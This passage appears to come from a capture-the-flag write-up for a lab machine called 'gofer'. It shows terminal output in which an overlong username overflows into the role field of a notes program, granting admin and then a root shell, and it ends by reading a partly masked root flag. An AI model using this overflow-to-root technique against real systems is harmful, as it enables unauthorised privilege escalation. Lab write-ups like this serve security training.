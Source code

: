 ```bash
Your choice: 2


Username: AAAAAAAAAAAAAAAAAAAAAAAAadmin
Role: admin

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access granted!
root@gofer:/tmp# cd /root
root@gofer:/root# ls -la
total 80
drwx------ 14 root root 4096 Jul 17 16:55 .
drwxr-xr-x 18 root root 4096 Jul 19 12:44 ..
drwxr-xr-x  2 root root 4096 Apr 28  2023 backups
lrwxrwxrwx  1 root root    9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwx------  3 root root 4096 Apr 26  2023 .config
drwxr-xr-x  2 root root 4096 Apr 26  2023 Desktop
drwxr-xr-x  2 root root 4096 Apr 26  2023 Documents
drwxr-xr-x  2 root root 4096 Apr 26  2023 Downloads
drwxr-xr-x  3 root root 4096 Oct 28  2022 .local
drwxr-xr-x  2 root root 4096 Apr 26  2023 Music
drwxr-xr-x  2 root root 4096 Apr 26  2023 Pictures
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Apr 26  2023 Public
-rw-r-----  1 root root   33 Oct 27 06:04 root.txt
drwxr-xr-x  2 root root 4096 Jul 27 11:57 scripts
drwxr-xr-x  2 root root 4096 Apr 26  2023 Templates
drwxr-xr-x  2 root root 4096 Apr 26  2023 Videos
-rw-r--r--  1 root root   39 Jul 17 16:55 .vimrc
-rw-------  1 root root   54 Apr 26  2023 .Xauthority
-rw-------  1 root root 1626 Apr 27  2023 .xsession-errors
root@gofer:/root# cat root.txt
ee31b783c8786faa6fc689161d******
```

## Extra
